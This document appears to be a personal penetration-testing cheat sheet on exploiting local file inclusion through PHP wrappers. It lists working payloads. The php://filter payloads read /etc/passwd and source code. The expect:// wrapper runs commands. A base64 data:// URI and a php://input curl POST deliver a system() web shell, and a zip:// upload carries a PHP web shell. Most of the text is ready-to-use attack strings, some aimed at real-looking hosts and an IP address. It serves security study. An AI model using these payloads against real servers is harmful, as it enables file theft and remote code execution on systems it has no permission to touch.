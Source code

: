 #### PHP WRAPPERS

Sometimes server preappends .php extension with resources being fetched by server ,so we can make use of  php filter
wrapper which sends required eqest as base64 and recieves it in base64 .if we have to get source of index.php  we
can get it by using this filter  and giving the resource parameter as index. Index source can give us more info about structure
of blacklisting and server and then we can further craft our payloads as we desire

- when normal lfi doesnt return output,then we can use this and we will get our output in base64.

> http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index


 php://filter/read=convert.base64-encode/resource=/etc/passwd 	PHP filter to convert file contents to Base64

php://filter/read=string.rot13/resource=/etc/passwd 	PHP filter to convert file contents to ROT13


- expect://id 	Command execution with PHP Expect wrapper

we can directly use expect wrapper to execute commands

> http:/example.com/index.php?param=expect://id


- We can also try data wrapper which allows us to include our own code from external source

we have to encode the code we want to execute on server side in base64. In following example we encoded php web get shell in base64

Allow_url_include must be enabled

> http://blog.inlanefreight.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id

- php://input
input wrapper is also like data wrapper and we can include this in lfi parameter 

we input our php get shell in body area of the request as its the data we are sending to server and we use
?param=php://include&cmd=ls in our  request

we can do it with curl

> curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"
 

- php zip://

we can use this to interact a zip file on server

If we can upload zip files then we a upload a zip including our php get web shell and
1. echo "<?php system($_GET['cmd']; ?>)" > exec.php
2. zip malicious.zip exec.php
 
we upload the malicious.zip on website 

zip wrapper allows to include the files inside a zip file and thus we can interact with exec.php and add a cmd parameter executing our commands
